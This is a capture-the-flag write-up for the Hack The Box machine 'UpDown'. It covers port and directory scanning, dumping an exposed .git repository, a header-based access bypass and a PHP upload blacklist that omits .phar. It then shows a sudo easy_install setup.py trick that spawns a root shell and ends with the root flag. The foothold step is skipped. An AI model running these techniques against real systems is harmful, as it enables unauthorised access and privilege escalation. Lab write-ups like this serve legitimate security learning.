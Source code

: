 ```yaml
---
title: UpDown
date: 2023-04-20 09:15:56 +/-TTTT
categories: [HTB,BOXES]
tags: [nmap,gitdumper,.git,ffuf,easy-install,dirsearch,file_upload,php]     # TAG names should always be lowercase
---
```



![image](https://user-images.githubusercontent.com/81282090/212468672-d5452732-fff0-40ba-817a-98b05663a20e.png)

## RECON

#### NMAP

```
nmap -sCV --min-rate=10000 -oN nmap/initial -p- -A 10.10.11.177
Nmap scan report for 10.10.11.177
Host is up (0.21s latency).
Not shown: 53501 closed tcp ports (reset), 12032 filtered tcp ports (no-response)
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  tcpwrapped
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/10%OT=80%CT=3%CU=35349%PV=Y%DS=2%DC=T%G=Y%TM=631CF13
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:07%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M539ST11NW7%O2=M539ST11NW7%O
OS:3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11NW7%O6=M539ST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=FAF0%O=
OS:M539NNSNW7%CC=Y%Q=)T1(R=N)T1(R=Y%DF=Y%T=40%S=O%A=O%F=AS%RD=0%Q=)T2(R=N)T
OS:3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=O%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=N)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)U1(R
OS:=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=
OS:N)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   188.83 ms 10.10.14.1
2   194.24 ms 10.10.11.177

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 10 23:19:03 2022 -- 1 IP address (1 host up) scanned in 322.60 seconds

```
Visiting the site, we are redirected to ```siteisup.htb``` we add it to our ```/etc/hosts``` directory

## ENUMERATION

#### FUZZING

We use dirsearch and ffuf to fuzz for the possible vhost and endpoints

##### Endpoints 
```
dirsearch -u http://siteisup.htb
...[snip]...
[10:31:53] 301 -  310B  - /dev  ->  http://siteisup.htb/dev/
...[snip]...

```
```
dirsearch -u http://siteisup.htb/dev
[10:34:05] Starting: dev/
[10:34:16] 301 -  315B  - /dev/.git  ->  http://siteisup.htb/dev/.git/
[10:34:16] 200 -  298B  - /dev/.git/config
[10:34:16] 200 -   21B  - /dev/.git/HEAD
[10:34:16] 200 -  602B  - /dev/.git/
[10:34:16] 200 -  412B  - /dev/.git/branches/
[10:34:16] 200 -   73B  - /dev/.git/description
[10:34:16] 200 -  674B  - /dev/.git/hooks/
[10:34:16] 200 -  521B  - /dev/.git/index
[10:34:16] 200 -  458B  - /dev/.git/info/
[10:34:16] 200 -  240B  - /dev/.git/info/exclude
[10:34:17] 200 -  179B  - /dev/.git/logs/HEAD
...[snip]..
```

##### vhost

```
ffuf -u http://siteisup.htb -H "HOST: FUZZ.siteisup.htb" -c  -w /usr/share/amass/wordlists/subdomains-top1mil-110000.txt -t 1000 -ic -fs 1131   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://siteisup.htb
 :: Wordlist         : FUZZ: /usr/share/amass/wordlists/subdomains-top1mil-110000.txt
 :: Header           : Host: FUZZ.siteisup.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1000
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 1131
________________________________________________

dev                     [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 241ms]
:: Progress: [114602/114602] :: Job [1/1] :: 975 req/sec :: Duration: [0:03:14] :: Errors: 730 ::

```
We add the vhost to our ```/etc/hosts``` directory using this command```echo "10.10.11.177  dev.siteisup.htb" | sudo tee -a /etc/hosts```

We can [git-dumper](https://github.com/arthaud/git-dumper) to dump the git repo

```
git-dumper git:(master) ✗ python3 git_dumper.py http://siteisup.htb/dev/ dump
➜  git-dumper git:(master) ✗ ls -la dump 
total 40
drwxr-xr-x 3 weiss1 weiss1 4096 Jan 13 09:22 .
drwxr-xr-x 4 weiss1 weiss1 4096 Jan 13 09:20 ..
-rw-r--r-- 1 weiss1 weiss1   59 Jan 13 09:22 admin.php
-rw-r--r-- 1 weiss1 weiss1  147 Jan 13 09:22 changelog.txt
-rw-r--r-- 1 weiss1 weiss1 3145 Jan 13 09:22 checker.php
drwxr-xr-x 7 weiss1 weiss1 4096 Jan 13 09:22 .git
-rw-r--r-- 1 weiss1 weiss1  117 Jan 13 09:22 .htaccess
-rw-r--r-- 1 weiss1 weiss1  273 Jan 13 09:22 index.php
-rw-r--r-- 1 weiss1 weiss1 5531 Jan 13 09:22 stylesheet.css
```
The ```.htaccess``` file reveals that we need a special header in order to gain access to ```dev.siteisup.htb``` vhost

```
git-dumper git:(master) ✗ cat dump/.htaccess 
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

Checking ```checker.php``` file, we identify an upload feature in the source code and some extensions are blacklisted and .phar is not included, interesting

```
if($_POST['check']){
  
	# File size must be less than 10kb.
	if ($_FILES['file']['size'] > 10000) {
        die("File too large!");
    }
	$file = $_FILES['file']['name'];
	
	# Check if extension is allowed.
	$ext = getExtension($file);
	if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
		die("Extension not allowed!");
	}
  
	# Create directory to upload our file.
	$dir = "uploads/".md5(time())."/";
	if(!is_dir($dir)){
        mkdir($dir, 0770, true);
    }
```

We use ```Modify Header Value``` firefox extension and add the header to the site. We can finally access the vhost

![image](https://user-images.githubusercontent.com/81282090/212465886-c0934309-d0c4-409c-974e-1f8384c164b3.png)

##### dev.siteisup.htb

![image](https://user-images.githubusercontent.com/81282090/212465981-2b6adde4-a434-4589-870c-dcc4d99d569b.png)


## PRIVILEGE ESCALATION

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install
error: No urls, filenames, or requirements specified (see --help)
developer@updown:~$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.JSGjXEmZfA
Writing /tmp/tmp.JSGjXEmZfA/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.JSGjXEmZfA/egg-dist-tmp-C38CX6
# ls -la
total 24
drwx------  4 developer developer 4096 Jan 14 10:55 .
drwxrwxrwt 14 root      root      4096 Jan 14 10:55 ..
drwx------  2 root      root      4096 Jan 14 10:55 egg-dist-tmp-C38CX6
-rw-r--r--  1 root      root        16 Jan 14 10:55 setup.cfg
-rw-rw-r--  1 developer developer   86 Jan 14 10:55 setup.py
drwxr-xr-x  2 root      root      4096 Jan 14 10:55 temp
# cd root
sh: 2: cd: can't cd to root
# ls
egg-dist-tmp-C38CX6  setup.cfg	setup.py  temp
# cd /root
# cat root.txt
ff883680dc209af89fd406149539936e
# 


```

